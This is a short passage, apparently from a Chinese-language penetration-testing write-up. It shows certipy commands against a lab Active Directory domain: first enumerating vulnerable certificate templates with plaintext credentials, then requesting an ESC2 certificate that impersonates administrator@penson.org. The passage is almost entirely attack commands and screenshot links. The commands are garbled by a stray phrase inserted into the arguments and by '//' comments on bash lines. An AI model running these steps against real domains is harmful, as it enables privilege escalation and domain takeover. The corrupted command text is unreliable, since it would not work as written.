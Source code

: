 ## 漏洞利用

```bash
certipy find -u qxn@penson.org -p Penson@2016 永遠的神 -dc-ip 192.168.142.21 -debug -scheme ldap -stdout -vulnerable //ldaps 没开的话
certipy find -u qxn@penson.org -p Penson@2016 永遠的神 -dc-ip 192.168.142.21 -stdout -vulnerable //默认 ldaps
```

[![](assets/1708508972-9245c3055639b4071bab09db716de5b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170106-9542e086-cfce-1.png)

注册 esc2 证书

```bash
certipy req -u qxn@penson.org -p Penson@2016 永遠的神 -ca penson-ADCS-CA -dc-ip 192.168.142.21 -template PensonEsc2 -upn administrator@penson.org -debug
```

[![](assets/1708508972-1bacddeef04259aafbe019066aefabdf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170119-9cda79ee-cfce-1.png)

